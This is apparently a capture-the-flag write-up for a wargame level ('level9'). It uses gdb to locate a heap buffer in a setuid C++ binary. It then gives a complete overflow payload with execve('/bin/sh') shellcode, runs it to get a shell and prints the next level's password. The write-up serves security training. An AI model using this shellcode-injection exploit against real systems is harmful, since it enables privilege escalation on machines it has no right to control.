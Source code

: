 # level9

```sh
$> ls -l ~
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9
```

We'll execute a simple shellcode to get the flag.  

We first need to find the address of the buffer.  
Since I didn't find it using the process I usually do in C, I'll do a breakpoint
just before the call to `memcpy()` to retrieve it.

```sh
$> gdb -q level9
(gdb) disas _ZN1N13setAnnotationEPc
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:	push   %ebp
   0x0804870f <+1>:	mov    %esp,%ebp
   0x08048711 <+3>:	sub    $0x18,%esp
   0x08048714 <+6>:	mov    0xc(%ebp),%eax
   0x08048717 <+9>:	mov    %eax,(%esp)
   0x0804871a <+12>:	call   0x8048520 <strlen@plt>
   0x0804871f <+17>:	mov    0x8(%ebp),%edx
   0x08048722 <+20>:	add    $0x4,%edx
   0x08048725 <+23>:	mov    %eax,0x8(%esp)
   0x08048729 <+27>:	mov    0xc(%ebp),%eax
   0x0804872c <+30>:	mov    %eax,0x4(%esp)
   0x08048730 <+34>:	mov    %edx,(%esp)
   0x08048733 <+37>:	call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:	leave  
   0x08048739 <+43>:	ret    
End of assembler dump.
(gdb) b *0x08048733
Breakpoint 1 at 0x8048733
(gdb) r "AAAA"
Starting program: /home/user/level9/level9 "AAAA"

Breakpoint 1, 0x08048733 in N::setAnnotation(char*) ()
(gdb) p/x $edx
$1 = 0x804a00c
(gdb) x/32x $edx
0x804a00c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a01c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a02c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a03c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a04c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a05c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a06c:	0x00000000	0x00000005	0x00000071	0x08048848
0x804a07c:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) x 0x804a06c + 12
0x804a078:	0x08048848
```

The address of the buffer is `0x804a00c`, and we can also see the return address (`0x804a078`) we'll overwrite.

The structure of the payload is as follows:
- 4 bytes for the address to our payload -> `0x0804a00c + 0x4 = 0x0804a010` -> `\x10\xa0\x04\x08`
- 21 bytes for the shellcode which executes `execve('/bin/sh')` -> `\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`
- 83 bytes of padding with `\x90` (noop)
- 4 bytes to overwrite the return address to the start of the buffer -> `0x804a00c` -> `\x0c\xa0\x04\x08`

```sh
$> python -c 'print("\x10\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*83 + "\x0c\xa0\x04\x08")' > /tmp/payload

$> ./level9 $(cat /tmp/payload)
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
